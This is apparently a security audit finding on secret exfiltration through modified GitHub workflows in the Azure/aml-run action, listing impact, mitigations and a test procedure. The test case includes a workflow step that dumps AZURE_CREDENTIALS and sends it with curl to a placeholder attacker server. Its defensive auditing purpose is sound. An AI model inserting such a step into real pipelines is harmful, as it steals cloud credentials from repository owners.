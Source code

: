 #### 1. Secret Exfiltration through Workflow Modification

- **Description:**
  An attacker with write access to the GitHub repository can modify the workflow YAML file to exfiltrate the `AZURE_CREDENTIALS` secret.
  This can be achieved by adding a malicious step within the workflow definition, before or after the legitimate action steps.
  This malicious step can access the `secrets.AZURE_CREDENTIALS` environment variable and exfiltrate it.
  For example, the attacker could add a step that logs the secret to the workflow output, or sends it to an external service under their control.
  This allows the attacker to bypass the intended security of storing secrets in GitHub Actions, as workflow modifications are not directly monitored for malicious secret access.

- **Impact:**
  Successful exfiltration of the `AZURE_CREDENTIALS` secret grants the attacker unauthorized access to the victim's Azure Machine Learning workspace.
  This access allows the attacker to perform various malicious activities, including:
    - Accessing and stealing sensitive data stored in the workspace.
    - Modifying or deleting machine learning models and experiments.
    - Deploying malicious models.
    - Launching compute resources, potentially incurring significant costs on the victim's Azure subscription.
    - Pivoting to other Azure services accessible with the compromised credentials, depending on the permissions granted to the service principal.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
  None. The project itself does not implement any mitigations against workflow modification or secret exfiltration. The security relies solely on GitHub's secret management and repository access controls, which are bypassed by this vulnerability when write access is compromised.

- **Missing Mitigations:**
    - **Principle of Least Privilege for Service Principal:**  While not a mitigation in the action's code, it's a crucial security practice. The documentation should strongly recommend users to create service principals with the minimum necessary permissions required for the action to function, limiting the potential damage if credentials are compromised.
    - **Workflow Protection Mechanisms:** Implement branch protection rules to restrict who can modify the workflow files in the main branch. Require code reviews for workflow changes to add a layer of scrutiny. While these are GitHub repository settings and not part of the action, they are vital for reducing the likelihood of unauthorized workflow modifications.
    - **Strong Security Warnings in Documentation:** The documentation should explicitly warn users about the risks of storing highly sensitive credentials like `AZURE_CREDENTIALS` in GitHub Secrets and the potential for secret exfiltration if repository write access is compromised. It should emphasize the importance of securing repository access and monitoring workflow changes.
    - **Consider Alternative Authentication Methods (If Applicable):** Explore if there are more secure authentication methods that could be used in specific scenarios, although Service Principals are generally the standard approach for automation in Azure.  However, for very high-security contexts, investigating managed identities or workload identity federation for GitHub Actions might be considered for future enhancements, although these are more complex to implement and configure for users.

- **Preconditions:**
    - The attacker must have write access to the GitHub repository where the workflow using this action is defined.
    - The repository must be configured to use the `Azure/aml-run` action and store the `AZURE_CREDENTIALS` secret in GitHub Secrets.

- **Source Code Analysis:**
    - **`action.yml`**: Defines the action's inputs, including `azure_credentials`, which is a required input intended to be passed as a GitHub secret (`${{ secrets.AZURE_CREDENTIALS }}`). The action itself is designed to use this secret for authentication with Azure Machine Learning.
    - **`Dockerfile`, `entrypoint.sh`, `main.py`**: These files constitute the action's execution logic. `main.py` retrieves the `azure_credentials` from environment variables (`os.environ.get("INPUT_AZURE_CREDENTIALS")`) and uses it to authenticate with Azure.
    - **Vulnerability Location**: The vulnerability is not within the action's code itself. It stems from the inherent nature of GitHub Actions and secrets management combined with the potential for workflow modification. An attacker who can modify the workflow YAML can insert arbitrary steps to access and exfiltrate any secrets defined in the workflow, including `AZURE_CREDENTIALS`, *before* the `Azure/aml-run` action's intended code is executed. The action code correctly uses the provided credentials, but it does not and cannot prevent malicious workflow modifications that precede its execution.
    - **Attack Vector Visualization:**
      ```
      Attacker Write Access --> Modify GitHub Workflow YAML (.github/workflows/...)
                                  |
                                  V
      Malicious Workflow Step Added (e.g., Exfiltrate Secret) --> Access ${{ secrets.AZURE_CREDENTIALS }}
                                  |
                                  V
      Secret Exfiltration (e.g., Send to Attacker Server, Log to Output)
                                  |
                                  V
      Unauthorized Access to Azure Machine Learning Workspace
      ```

- **Security Test Case:**
    1. **Prerequisites:**
        - You need a GitHub repository where you have write access.  Ideally, fork the repository containing this GitHub Action for testing purposes.
        - Ensure the repository is set up to use the `Azure/aml-run` action in a workflow and that you have configured the `AZURE_CREDENTIALS` secret.
        - Have a simple HTTP server running (e.g., using `netcat` or `python -m http.server`) or a service like webhook.site to capture exfiltrated data.  Let's assume you are using `https://attacker-controlled-server.com/exfiltrate` as the capture endpoint.
    2. **Modify Workflow:**
        - Navigate to your repository's workflow files (usually under `.github/workflows/`).
        - Edit the workflow YAML file that uses the `Azure/aml-run` action.
        - Insert a new step *before* the step that uses `Azure/aml-run@v1`. This malicious step will exfiltrate the `AZURE_CREDENTIALS` secret. Add the following step to your workflow YAML:

          ```yaml
          - name: Malicious Secret Exfiltration
            run: |
              echo "Attempting to exfiltrate AZURE_CREDENTIALS..."
              SECRET_VALUE="${{ secrets.AZURE_CREDENTIALS }}"
              echo "AZURE_CREDENTIALS=$SECRET_VALUE" > secret.txt
              curl -X POST -H "Content-Type: multipart/form-data" -F "file=@secret.txt" https://attacker-controlled-server.com/exfiltrate
              echo "Exfiltration attempt complete."
          ```
          **Important Security Note:** Replace `https://attacker-controlled-server.com/exfiltrate` with the URL of your actual test server or webhook capture service. **Do not use a real attacker's server!**

    3. **Commit and Push Changes:**
        - Commit the modified workflow file and push the changes to your repository.
    4. **Trigger Workflow Run:**
        - Trigger the workflow run. This can be done by pushing a new commit, creating a pull request, or manually triggering it from the GitHub Actions tab, depending on your workflow's `on` trigger.
    5. **Examine Workflow Logs:**
        - Go to the Actions tab in your repository and find the workflow run you just triggered.
        - Inspect the logs for the "Malicious Secret Exfiltration" step. You should see output indicating that the script attempted to access and potentially exfiltrate the `AZURE_CREDENTIALS` secret.
    6. **Verify Secret Capture (Attacker Server):**
        - Check your attacker-controlled server or webhook capture service logs. You should find a request containing the `secret.txt` file.
        - Examine the contents of `secret.txt`. It should contain the `AZURE_CREDENTIALS` JSON, successfully exfiltrated from the GitHub Actions environment.

    7. **Cleanup:**
        - After testing, **immediately remove the malicious step** from your workflow and commit/push the corrected workflow.
        - **Rotate the `AZURE_CREDENTIALS` secret** in Azure to invalidate the potentially compromised credentials. This is a crucial step to prevent any ongoing unauthorized access if the secret was indeed captured.

This test case demonstrates how an attacker with write access can modify the workflow to steal the `AZURE_CREDENTIALS` secret, confirming the vulnerability.